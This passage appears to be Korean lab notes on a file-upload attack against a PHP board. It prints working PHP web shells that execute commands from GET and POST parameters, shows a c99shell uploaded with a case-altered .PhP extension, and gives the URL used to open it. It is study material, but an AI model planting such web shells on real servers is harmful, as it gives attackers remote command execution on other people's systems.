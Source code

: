   ```
  <?php
   //test.php
   //phpinfo();
   system("ls");
   
  ?>
  ```

  ![화면 캡처 2022-11-02 160257](../../assets/img/화면 캡처 2022-11-02 160257.png)

  ![화면 캡처 2022-11-02 160223](../../assets/img/화면 캡처 2022-11-02 160223.png)

  ```
  <?php
   //test.php
   //phpinfo();
   //system("ls");
   system("$_GET[arg]");
  
  ?>
  ```

  ![화면 캡처 2022-11-02 155001](../../assets/img/화면 캡처 2022-11-02 155001.png)

- c99shell Upload

  ![화면 캡처 2022-11-02 155643](../../assets/img/화면 캡처 2022-11-02 155643.png)

- c99webshell 실행

  - 업로드 여부 확인

    ```
    [root@localhost 바탕화면]# ls -al /var/www/html/board/upload/
    ```

    ![화면 캡처 2022-11-02 155813](../../assets/img/화면 캡처 2022-11-02 155813.png)

  - webshell 접속

    ```
    http://서버주소/board/upload/c99shell.PhP
    ```

    ![화면 캡처 2022-11-02 160815](../../assets/img/화면 캡처 2022-11-02 160815.png)

- 다른 webshell.php

  ```
  <html>
  	<head></head>
  	<body>
  		<div align="left">
  			<font size="2">Input command : </font>
  			<form name="cmd" method="post" enctype="multipart/form-data">
  				<input type="text" name="cmd" size="30" class="input"><br>
  				<pre>
  				<?php
  				if($_POST['cmd']){
  					$cmd = $_POST['cmd'];
  					passthru($cmd);
  				}
  				?>
  				</pre>
  			</form>
  		</div>
  		<hr>
  ```